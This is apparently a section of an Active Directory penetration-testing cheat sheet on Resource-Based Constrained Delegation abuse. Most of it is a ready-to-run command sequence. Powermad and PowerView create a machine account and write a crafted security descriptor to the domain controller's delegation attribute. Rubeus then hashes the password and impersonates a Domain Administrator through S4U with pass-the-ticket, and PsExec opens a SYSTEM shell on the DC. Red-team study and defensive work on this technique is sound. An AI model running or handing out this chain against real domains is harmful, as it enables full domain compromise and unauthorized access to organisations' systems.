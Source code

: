 ##### Resource-Based Constrained Delegation
If we have GenericALL/GenericWrite privileges on a machine account object of a domain, we can abuse it and impersonate ourselves as any user of the domain to it. For example we can impersonate a Domain Administrator.
```
# Use Powermad to create a new machine account
New-MachineAccount -MachineAccount <machine_name> -Password $(ConvertTo-SecureString '<machine_password>' -AsPlainText -Force) -Verbose

# Use PowerView and get the SID value of our new machine
$ComputerSid = Get-DomainComputer <machine_name> -Properties objectsid | Select -Expand objectsid

# Then by using the SID we have to build a ACE for the new created machine account
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we're taking over
Get-DomainComputer DC | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

# Use rubeus to get the RC4 hash of the machine account
.\rubeus.exe hash /password:<machine_password> /user:<machine_name> /domain:DOMAIN.FQDN
RC4 hash -> 48FC3FC78D26CA2DA2B17C7751EAB6BD

# Execute the impersonation and get a TGS as Domain Administrator for the service cifs on the DC
.\rubeus.exe s4u /user:<user> /rc4:<rc4_hash> /impersonateuser:<target_user(Administrator)> /msdsspn:cifs/DC.DOMAIN.FQDN /domain:DC.DOMAIN.FQDN /ptt

# Get a session on the DC
.\PsExec64.exe -accepteula \\DC.DOMAIN.FQDN\ -s powershell.exe
```
